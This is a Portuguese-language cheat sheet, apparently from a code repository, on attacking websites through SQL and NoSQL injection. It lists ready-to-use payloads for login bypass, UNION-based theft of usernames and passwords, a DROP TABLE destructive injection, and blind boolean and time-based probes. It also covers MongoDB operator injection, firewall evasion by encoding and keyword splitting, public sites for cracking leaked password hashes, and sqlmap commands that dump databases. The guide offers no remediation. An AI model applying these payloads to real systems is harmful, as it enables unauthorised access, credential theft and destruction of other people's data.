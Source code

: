
# SQL Injection

### Entender Estruturas e Tipos de Banco de Dados

SQL Injection ocorre em bancos relacionais (MySQL, PostgreSQL, SQL Server, Oracle) e também pode afetar bancos NoSQL como MongoDB. Compreender como cada um processa consultas é essencial para encontrar vulnerabilidades.

---

### Identificar o Tipo de Banco de Dados

É possível identificar o banco observando mensagens de erro, analisando headers de resposta ou testando comandos específicos para cada SGBD. Exemplo:

- SELECT version(); → PostgreSQL
- @@version → MySQL
- SELECT @@version; → SQL Server

---

### Analisar Consultas de Banco de Dados no Site

Monitorar requisições com ferramentas como Burp Suite pode revelar padrões de consulta, parâmetros vulneráveis e pontos de injeção.

---

### Comandos na URL do Site

Ataques de SQL Injection via URL ocorrem quando parâmetros na query string são manipuláveis.

Testes Comuns:

- **Autenticação Bypass**
    ~~~pgsql
    https://site.com/login?user=admin'--  
    ~~~
    *Comenta o restante da consulta SQL, podendo acessar sem senha.*

- **Extração de Dados**
    ~~~pgsql
    https://site.com/produto?id=1' UNION SELECT username, password FROM users --  
    ~~~
    *Usa `UNION SELECT` para obter credenciais.*

- **SQL Injection Destrutivo**
    ~~~pgsql
    https://site.com/produto?id=1; DROP TABLE users;  
    ~~~
    *Exclui a tabela `users`, se permissões permitirem.*

- **Blind SQL Injection (Boolean-based)**
    ~~~pgsql
    https://site.com/produto?id=1' AND 1=1 -- (retorna resultado válido)  
    https://site.com/produto?id=1' AND 1=0 -- (não retorna resultado)  
    ~~~
    *Ajuda a confirmar vulnerabilidade sem erro visível.*

- *Time-Based SQL Injection*
    ~~~pgsql
    https://site.com/produto?id=1' AND IF(1=1, SLEEP(5), 0) --  
    ~~~
    *Se o site demorar a responder, a vulnerabilidade é confirmada.*

---

### Comandos SQL e NoSQL Injection

#### `SQL Injection (Bancos relacionais - MySQL, PostgreSQL, SQL Server)`

Manipula consultas SQL para acessar dados indevidos.

Exemplos:

- **Autenticação bypass:**
  ~~~sql
  ' OR '1'='1 --  
  ~~~
  *Retorna todos os usuários.*

- *Extração de dados:*
  ~~~sql
  ' UNION SELECT username, password FROM users --  
  ~~~
  *Retorna credenciais de usuários.*

#### `NoSQL Injection (MongoDB, Firebase, CouchDB)`

Explora a falta de validação em bancos NoSQL.

Exemplos:

- **Autenticação bypass:**
    ~~~json
    { "username": { "$ne": null }, "password": { "$ne": null } }  
    ~~~
    *Retorna qualquer usuário válido.*

- **Manipulação de consultas:**
    ~~~json
    { "username": { "$gt": "" } }  
    ~~~
    *Pode retornar todos os usuários se não houver sanitização.*

- **Execução de código via JavaScript (MongoDB antigo):**
    ~~~json
    { "$where": "this.password.length > 0" }   
    ~~~
    *Pode forçar a execução de código malicioso.*

---

### Como Burlar Firewalls para Fazer SQL Injection

- Evasão básica: Inserir espaços codificados (/**/, %20)
- Ofuscação: Usar CHAR() ou HEX()
- Técnicas avançadas: Usar encoding como Base64, substituir palavras-chave (SELECT → SEL/**/ECT)

---

### Achar Sites para Descriptografia de Senhas HASH

Senhas vazadas podem ser descriptografadas com bancos de hash públicos:

- CrackStation (crackstation.net)
- Hashes.org (hashes.org)
- OnlineHashCrack (onlinehashcrack.com)

---

### Uso do SQLmap

Ferramenta automatizada para SQL Injection:

~~~bash
sqlmap -u "http://site.com/produto?id=1" --dbs
~~~

Principais opções:

-  --tables → Lista tabelas
-  --columns → Lista colunas
-  --dump → Extrai dados
  
---
